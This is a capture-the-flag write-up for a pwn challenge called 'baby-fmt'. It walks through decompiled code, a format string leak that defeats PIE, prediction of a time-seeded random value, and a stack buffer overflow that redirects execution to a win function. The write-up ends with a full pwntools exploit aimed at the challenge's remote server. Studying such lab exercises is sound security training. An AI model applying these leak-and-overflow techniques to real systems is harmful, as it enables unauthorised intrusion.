




# baby-fmt - CTF Writeup

**Challenge Name:** baby-fmt  
**Description:** This should be a basic pwn challenge but please be aware that time is not your friend.

**Environment:** Running on Ubuntu 20.04

## Overview

In this challenge we are provided with a binary and we need to pwn a remote machine in order to get the flag. From the challenge name we are hinted that we need to exploit a format string vulnerability in order to leak some stack addresses.

## Initial Analysis

First, let's run the binary and see what it does.



As you can see, it gives us 2 chances to input things:
- The **first input** is vulnerable to format string exploit which leaks addresses from the stack
- The **second input** should let us overflow the buffer but it seems that it has some kind of protection

It seems that the binary has many functions, so to do our job easily, let's open it in Ghidra and analyze the code.

## Decompiled Code Analysis

This is the decompiled program code which holds the main logic:

```c
void program(void)
{
  int iVar1;
  time_t time_var;
  size_t buffer_8_length;
  ulong curr;
  char buffer_8 [8];
  char buffer_5 [5];
  int random_value;
  int i;
  
  time_var = time((time_t *)0x0);
  srand((uint)time_var);
  DAT_0010402c = rand();
  random_value = DAT_0010402c;
  puts("What\'s your town?");
  fgets(buffer_8,8,stdin);
  i = 0;
  while( true ) {
    curr = (ulong)i;
    buffer_8_length = strlen(buffer_8);
    if (buffer_8_length <= curr) break;
    if (buffer_8[i] == '\n') {
      buffer_8[i] = '\0';
    }
    i = i + 1;
  }
  iVar1 = compare_input(buffer_8);
  if (iVar1 == 0) {
    puts("Hello stranger. What town is this?");
    printf(buffer_8);
  }
  else {
    printf("Hello, %s\n",buffer_8);
  }
  puts("\nCan you say hi in Chalcatongo?\n");
  gets(buffer_5);
  protection(random_value);
  return;
}
```

As we can see, the first input indeed has a format string vulnerability which we will use later. The second input reads into a buffer of 5 bytes and then calls a function with the random value generated at the beginning of the code.

### Understanding the Protection Mechanism

Let's see what the protection function does:

```c
void protection(int random_value)
{
  if (random_value != DAT_0010402c) {
    printf("Hacking attempt.");
                    /* WARNING: Subroutine does not return */
    exit(-1);
  }
  printf("Ok");
  return;
}
```

It compares the random value to the one generated. Basically, it checks that it hasn't been changed. In other words, it doesn't let us write more than 5 bytes in the second buffer; otherwise what we write will overwrite the random value and the protection will activate and exit the program.

We see that the random value is generated using the `rand` library from standard C library which takes as a seed the current time. Given that, we can calculate the current time at the same moment, give it as a seed to the `rand` function in our exploit and then recompute the random number which will be the same as on the server, because the same seed produces the same random number.

**The strategy will be:**
- Write 5 bytes
- Write the random number (so it will not change the random number on the machine)
- Continue with the exploit

### Finding the Win Function

Looking further into the decompiled code I found:

```c
void win(void)
{
  char *local_38;
  undefined *local_30;
  undefined8 local_28;
  char *local_18 [2];
  
  local_18[0] = (char *)0x0;
  local_38 = "/bin/cat";
  local_30 = &DAT_00102051;
  local_28 = 0;
  execve("/bin/cat",&local_38,local_18);
  return;
}
```

This is the function that we need to jump to, found at offset `0010133f` from the main base → offset `0x133f`

## Binary Security Analysis

Running `checksec` on the binary:



We see that PIE is enabled, meaning we don't know the main function base. In order to find it we will need to leak an address from the stack which is a part from the main program and then subtract its offset in order to get the main function base.

## Exploit Development - Part 1: Leaking Addresses

We will write an exploit that leaks addresses at position 1-50 on the stack so maybe we can find some useful addresses. Before that, I checked the entry point offset:



The program starts at the offset: `001011c0` → entry point offset is `0x11c0`

Let's run the address leaker exploit and see what we get. I will leave that exploit in this repository. After carefully looking through the addresses, I found something interesting at the 10th position:
- `59c2daa741c0`

It indeed looks like a program address but the most interesting thing is that it ends in `1c0` exactly as the offset. This could be our entry point address because if we subtract the address with the offset, our allegedly main base will end in `000` which is perfect because that's how main addresses are often represented due to pagination. 

So now that we know the main address we can also calculate the runtime address of our `win` function.

The exploit until now will be:

```python
from pwn import *
import argparse
import subprocess
import ctypes
import time

context.log_level = 'DEBUG'
context.aslr = False

# start the process
# p = process('./pwn_baby_fmt')
p = remote("34.185.160.224", 31841)
libc = ELF('./libc-2.27.so')

# receive initial prompt
p.recvuntil(b"What's your town?\n")

# leak an address from main in order to get the main base
p.sendline(b'%10$p')
p.recvline()  # get first line
leaked = int(p.recvline().decode().lstrip("0x").rstrip("\n"), 16)
print("Leaked function address:", hex(leaked))

pie_base = leaked - 0x11c0
print("PIE base:", hex(pie_base))

# calculate the base and the win function address
win_function_address = pie_base + 0x133f
print("Win function address:", hex(win_function_address))
```

## Exploit Development - Part 2: Calculating the Random Number

Now we will need to calculate the random number:

```python
# Generate the random number
libc_lib = ctypes.CDLL(libc.path)

# Get current time and seed
current_time = int(time.time())
libc_lib.srand(current_time + 8)  # +8 for differences between local and remote time
                                   # adjust as needed, 8 seconds worked for me

# Generate random number
random_number = libc_lib.rand()
print("Random number:", random_number)
```

## Exploit Development - Part 3: Finding the Buffer Offset

Before we construct our final payload, let's find the buffer offset so we will know how many bytes to send before overwriting the return address with the win function address.



As we can see, the buffer is at `rbp - 0x1d` which is 29 in decimal, so 29 bytes far from `rbp`. In order to reach RIP we need to write `29 + 8 = 37` bytes.

### Payload Construction

The payload will be constructed like this:
1. Write 5 bytes to fill the buffer
2. Write the random value (integer so 4 bytes)
3. Write another 28 bytes to get to RBP (`5 + 4 + 28 = 37` bytes)
4. Overwrite the return address with the address of win function

This is the final part of the exploit:

```python
# construct the payload
buffer_fill = b'a' * 5
overwrite_to_return = b'a' * 28
payload = buffer_fill + p32(random_number) + overwrite_to_return + p64(win_function_address)

p.recvline()
p.sendline(payload)

# get shell
p.interactive()
```

## Full Exploit Code

```python
from pwn import *
import argparse
import subprocess
import ctypes
import time

context.log_level = 'DEBUG'
context.aslr = False

# start the process
# p = process('./pwn_baby_fmt')
p = remote("34.185.160.224", 31841)
libc = ELF('./libc-2.27.so')

# receive initial prompt
p.recvuntil(b"What's your town?\n")

# leak an address from main in order to get the main base
p.sendline(b'%10$p')
p.recvline()  # get first line
leaked = int(p.recvline().decode().lstrip("0x").rstrip("\n"), 16)
print("Leaked function address:", hex(leaked))

pie_base = leaked - 0x11c0
print("PIE base:", hex(pie_base))

# calculate the base and the win function address
win_function_address = pie_base + 0x133f
print("Win function address:", hex(win_function_address))

# Generate the random number
libc_lib = ctypes.CDLL(libc.path)

# Get current time and seed
current_time = int(time.time())
libc_lib.srand(current_time + 8)  # +8 for differences between local and remote time
                                   # adjust as needed, 8 seconds worked for me

# Generate random number
random_number = libc_lib.rand()
print("Random number:", random_number)

# construct the payload
buffer_fill = b'a' * 5
overwrite_to_return = b'a' * 28
payload = buffer_fill + p32(random_number) + overwrite_to_return + p64(win_function_address)

p.recvline()
p.sendline(payload)

# get shell
p.interactive()
```

The full exploit is available in this repository.

## Key Takeaways

- **Format String Vulnerability**: Used to leak PIE base address
- **Time-based Random Number**: Predicted by synchronizing time with server
- **Buffer Overflow Protection**: Bypassed by writing the correct random value
- **PIE Bypass**: Calculated base address from leaked stack address ending in entry point offset